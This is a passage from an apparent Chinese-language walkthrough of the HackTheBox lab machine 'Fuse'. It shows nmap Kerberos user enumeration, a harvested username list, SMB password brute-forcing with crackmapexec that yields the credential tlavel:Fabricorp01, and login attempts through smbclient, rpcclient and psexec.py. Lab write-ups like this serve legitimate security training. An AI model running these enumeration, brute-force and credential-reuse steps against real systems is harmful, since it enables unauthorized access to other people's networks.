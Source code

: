 没有得到任何共享的信息，但是我们得到了

[+] Domain Name: FABRICORP

尝试枚举kerberos的用户名看看

$ nmap -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='FABRICORP' 10.10.10.193

![]({{ site.url }}/assets/Fuse_193.assets/20201029143822094_10449.png)

administrator@FABRICORP

没有太多用处

其他各个端口测试无更多的线索。

之前在网页注意到打印有很多用户，收集这些用户名形成users字典

```
pmerton
tlavel
sthompson
bhult
administrator
```

尝试暴力smb

crackmapexec

$ crackmapexec smb 10.10.10.193 -u users.txt -p wordlist.txt

![]({{ site.url }}/assets/Fuse_193.assets/20201029164824755_26695.png)

正常的状态应该是登录失败，但是这组凭证的状态是`STATUS_PASSWORD_MUST_CHANGE`

tlavel:Fabricorp01

尝试连接

$ smbclient -L fuse.fabricorp.local -U tlavel

![]({{ site.url }}/assets/Fuse_193.assets/20201029165148260_4372.png)



尝试在其他端口利用

rpcclient -U FABRICORP\\tlavel 10.10.10.193

psexec.py FABRICORP/tlavel:Fabricorp01@fuse.fabricorp.local

![]({{ site.url }}/assets/Fuse_193.assets/20201029171506339_26062.png)

修改密码

$ smbpasswd -r fuse.fabricorp.local -U tlavel

![]({{ site.url }}/assets/Fuse_193.assets/20201029170455270_12398.png)

修改失败，认为长度不符合
